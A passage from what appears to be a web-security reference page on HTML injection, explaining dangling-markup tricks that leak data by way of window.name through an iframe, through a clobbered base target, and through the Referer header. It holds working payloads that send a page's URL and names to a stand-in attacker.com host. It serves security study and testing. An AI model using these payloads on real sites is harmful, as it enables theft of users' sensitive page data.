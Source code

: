 <pre class="language-html" data-title="Exploit"><code class="lang-html">&#x3C;iframe id="iframe" src="https://target.tld/dangling-object">&#x3C;/iframe>
&#x3C;script>
  iframe.onload = () => {
    const object = iframe.contentWindow[0];
    object.location = "about:blank";  // Navigate to our same-origin

    const interval = setInterval(() => {
      object.origin;  // When it becomes same-origin
      clearInterval(interval);
<strong>      alert(object.name);  // Leak its name (kept after navigation)
</strong>    })
  }
&#x3C;/script>
</code></pre>

***

Another related trick relies on the [`<base>`](https://developer.mozilla.org/en-US/docs/Web/HTML/Reference/Elements/base) tag and its `target=` attribute. By clobbering it, every link on the page that the user may click (including ones by the attacker) will get their name set to the attribute value. This also supports newlines still and allows you to leak just as before, without iframes but requiring a click on the attacker's link inside the target page. Using CSS or classes you may be able to cover the whole screen.

{% embed url="https://portswigger.net/research/evading-csp-with-dom-based-dangling-markup" %}
Article first explaining this technique with examples
{% endembed %}

{% code title="Injection" %}
```html
<a href="https://attacker.com/leak" style="position:fixed;top:0;left:0;width:100%;height:100%"></a>
<base target='
```
{% endcode %}

{% code title="https://attacker.com/leak" %}
```javascript
alert(window.name)  // Leak
```
{% endcode %}

### Leak via Referer

This next trick is for leaking with `<textarea>` using a form, while the [`form-action`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Headers/Content-Security-Policy/form-action) CSP directive disallows external hosts. It only works in Chromium, so this requires a natural `</textarea>` after the injection point and the sensitive data.

Using the following injection, it is possible to leak the current URL via the [#referer](html-injection.md#referer "mention") request header:

{% code title="Referer leak" %}
```html
<img src="https://attacker.com" referrerpolicy="unsafe-url">
```
{% endcode %}
